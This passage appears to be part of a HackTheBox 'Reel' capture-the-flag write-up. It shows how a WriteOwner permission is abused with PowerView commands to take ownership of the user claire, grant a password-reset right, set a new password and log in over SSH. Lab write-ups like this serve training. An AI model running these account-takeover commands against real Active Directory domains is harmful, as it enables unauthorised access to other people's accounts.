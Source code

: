 Now I'll upload the zip to bloodhound

![image1](/assets/images/htb-reel/reel1.png)

Using `WriteOwner` we can own claire, add the rigth to reset the password, change it and ssh in.

First import powerview

```
import-module ..\..\PowerView.ps1
````

Set tom the owner of claire

```
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
```

Now add the right to change the password

```
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom
```

Create the password and reset it

```
$pass = ConvertTo-SecureString -String '44Pa$$w0rd$$##!!' -AsPlainText -Force
Set-DomainUserPassword -Identity claire -AccountPassword $pass
```

Now ssh into claire

```
ssh claire@10.10.10.77
```
